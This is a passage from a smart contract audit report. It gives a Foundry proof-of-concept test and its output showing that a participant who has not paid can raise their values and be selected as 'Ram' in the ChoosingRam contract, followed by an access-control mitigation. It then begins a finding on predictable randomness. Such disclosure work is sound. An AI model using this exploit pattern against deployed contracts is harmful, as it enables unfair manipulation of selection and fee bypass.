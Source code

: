 ```solidity
function test_anyoneCanIncreaseHisValuesAndBeTheRamWithoutPayEntranceFee() public {
        vm.prank(attacker);
        ramNFT.mintRamNFT(attacker);

        vm.prank(attacker2);
        ramNFT.mintRamNFT(attacker2);

        vm.startPrank(attacker2);
        choosingRam.increaseValuesOfParticipants(1, 1);
        choosingRam.increaseValuesOfParticipants(1, 1);
        choosingRam.increaseValuesOfParticipants(1, 1);
        choosingRam.increaseValuesOfParticipants(1, 1);
        choosingRam.increaseValuesOfParticipants(1, 1);
        vm.stopPrank();

        assertEq(ramNFT.getCharacteristics(1).isJitaKrodhah, true);
        console.log("Characteristics of Ram: ", ramNFT.getCharacteristics(1).isJitaKrodhah);
        console.log("Characteristics of Ram: ", ramNFT.getCharacteristics(1).isDhyutimaan);
        console.log("Characteristics of Ram: ", ramNFT.getCharacteristics(1).isVidvaan);
        console.log("Characteristics of Ram: ", ramNFT.getCharacteristics(1).isAatmavan);
        console.log("Characteristics of Ram: ", ramNFT.getCharacteristics(1).isSatyavaakyah);
    }
```

output :

```
      forge test --mt test_anyoneCanIncreaseHisValuesAndBeTheRamWithoutPayEntranceFee -vv

Logs:
  Characteristics of Ram:  true
  Characteristics of Ram:  true
  Characteristics of Ram:  true
  Characteristics of Ram:  true
  Characteristics of Ram:  true

```

## Recommended Mitigation:

Implement robust access control mechanisms to ensure that only participants who have paid the entrance fee can increase their values. Consider restricting value increases to a specific array of authorized participants, such as address[] public WantToBeLikeRam in Dussehra.sol. This approach will help maintain fairness and prevent unauthorized participants from manipulating the RAM selection process.

# Low Risk Findings

## <a id='L-01'></a>L-01. [H-1] Predictable Randomness Logic in `ChoosingRam::selectRamIfNotSelected()`
